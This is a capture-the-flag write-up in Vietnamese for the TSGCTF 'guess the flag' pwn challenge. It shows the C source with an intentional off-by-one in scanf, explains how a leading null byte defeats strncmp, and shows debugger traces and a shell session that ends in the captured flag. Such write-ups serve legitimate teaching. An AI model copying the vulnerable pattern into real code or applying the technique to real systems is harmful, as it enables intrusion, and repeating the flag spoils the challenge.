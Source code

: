 # Reverse file.

- Bài này tác giả cho source.

```python
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <string.h>
#include <unistd.h>

void win() {
    system("/bin/sh");
}

void init() {
    alarm(60);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int main(void) {
    char your_try[64]={0};
    char flag[64]={0};

    init();

    puts("guess the flag!> ");

    FILE *fp = fopen("./flag", "r");
    if (fp == NULL) exit(-1);
    size_t length = fread(flag, 1, 64, fp);

    scanf("%64s", your_try);

    if (strncmp(your_try, flag, length) == 0) {
        puts("yes");
        win();
    } else {
        puts("no");
    }
    return 0;
}
```

- Mục tiêu của ta là nhập input sao cho if (strncmp(your_try, flag, length) == 0) sẽ có được flag.
- Ở đây ta thấy có bug off-by-one ở  scanf("%64s", your_try); vậy nếu ta nhập input ta 64bytes thì sẽ có 1 byte null được thêm vào cuối và nó sẽ overflow sang flag.
    - Ví dụ mình có flag: "a"*64 khi nhập input < 64 bytes thì không có gì xảy ra thì đoạn strncmp trên sẽ như sau:
        
        ```python
        ► 0x555555555431 <main+322>    call   strncmp@plt <strncmp@plt>
                s1: 0x7fffffffdf30 ◂— 'bbbbbbbb'
                s2: 0x7fffffffdf70 ◂— 0x6161616161616161 ('aaaaaaaa')
                n: 0x40
        ```
        
    - Nếu mình nhập input 64byte sẽ như sau:
        
        ```python
        ► 0x555555555431 <main+322>    call   strncmp@plt <strncmp@plt>
                s1: 0x7fffffffdf30 ◂— 'bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb'
                s2: 0x7fffffffdf70 ◂— 0x6161616161616100
                n: 0x40
        ```
        
    - Byte null được thêm vào và tràn sang s2.
    - Vậy giờ ta chỉ cần nhập input là "\x00" cộng vs 63byte bất kì ta có thể pass được đoạn so sánh trên và vào được win.
    
    ```python
    ► 0x555555555431 <main+322>    call   strncmp@plt <strncmp@plt>
            s1: 0x7fffffffdf30 ◂— 0x6262626262626200
            s2: 0x7fffffffdf70 ◂— 0x6161616161616100
            n: 0x40
    ```
    
    ```python
    Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    [*] Switching to interactive mode
    guess the flag!>
    yes
    $ cat flag
    TSGCTF{just_a_simple_off_by_one-chall_isnt_it}
    ```
